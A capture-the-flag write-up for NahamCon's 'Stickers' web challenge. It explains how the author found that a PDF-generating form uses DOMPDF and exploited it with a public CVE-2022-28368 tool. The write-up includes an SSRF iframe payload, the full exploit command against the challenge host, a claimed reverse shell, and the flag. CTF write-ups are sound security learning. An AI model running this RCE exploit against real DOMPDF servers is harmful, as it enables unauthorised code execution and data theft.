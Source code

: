 # Stickers
> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!

> Find the flag file in /flag.txt at the root of the filesystem.

## About the Challenge
We got a server that has a functionality to convert our input into a PDF file

![preview](images/preview.png)

![preview-2](images/preview-2.png)

## How to Solve?
At first, I thought this website was vulnerable to SSRF where we can input `<iframe src="http://127.0.0.1">` in the `organization` or `email` parameter but I was wrong

And I accidentally made the website error

![error](images/error.png)

I researched about this error message, and it appears that this website uses `DOMPDF` to convert our input into a PDF file. Because this website utilizes `DOMPDF`, it reminded me of a machine on HTB where the user had to exploit `RCE` on `DOMPDF`.

Im using this [tool](https://github.com/rvizx/CVE-2022-28368) to easier my work and here is the command that I used to exploit the website

```shell
python3 dompdf-rce.py --inject "http://challenge.nahamcon.com:32261/quote.php?email=test%40mail.com&small=3&medium=3&large=3&organisation=" --dompdf "http://challenge.nahamcon.com:32261/dompdf/"
```

And heck yeah, we got a reverse shell. And then read `/flag.txt` to obtain the flag

![flag](images/flag.png)

```
flag{a4d52beabcfdeb6ba79fc08709bb5508}
```
